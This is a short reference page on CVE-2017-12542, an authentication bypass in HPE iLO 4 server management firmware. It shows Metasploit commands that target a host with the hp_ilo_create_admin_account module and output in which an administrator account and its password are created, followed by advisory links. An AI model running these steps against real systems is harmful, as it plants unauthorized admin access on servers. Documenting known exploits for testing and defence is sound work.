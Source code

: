```yaml
---
title : "CVE-2017-12542"
# pre : ' '
description : "A authentication bypass and execution of code vulnerability in HPE Integrated Lights-out 4 (iLO 4) version prior to 2.53."
date : 2020-03-11T12:41:23+01:00
# hidden : true
# draft : true
weight : 0
# tags : [""]
---
```


## CVE-2017-12542 - HP iLO 4 1.00-2.50 Authentication Bypass Administrator Account Creation

## Usage

```plain
msf5 > use auxiliary/admin/hp/hp_ilo_create_admin_account
```

## Examples

```plain
msf5 > use auxiliary/admin/hp/hp_ilo_create_admin_account
msf5 auxiliary(admin/hp/hp_ilo_create_admin_account) > set RHOSTS 10.10.10.16
msf5 auxiliary(admin/hp/hp_ilo_create_admin_account) > set USERNAME MyAdmin
msf5 auxiliary(admin/hp/hp_ilo_create_admin_account) > run
[*] Running module against 10.10.10.16

[*] Trying to create account MyAdmin...
[+] Account MyAdmin/A7ay2i110sSa created successfully.
[*] Auxiliary module execution completed[/code]
```

## URL List

* [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2017-12542)
* [Exploit-db.com](https://www.exploit-db.com/exploits/44005)
* [Support.hpe.com](https://support.hpe.com/hpesc/public/docDisplay?docId=emr_na-hpesbhf03769en_us)
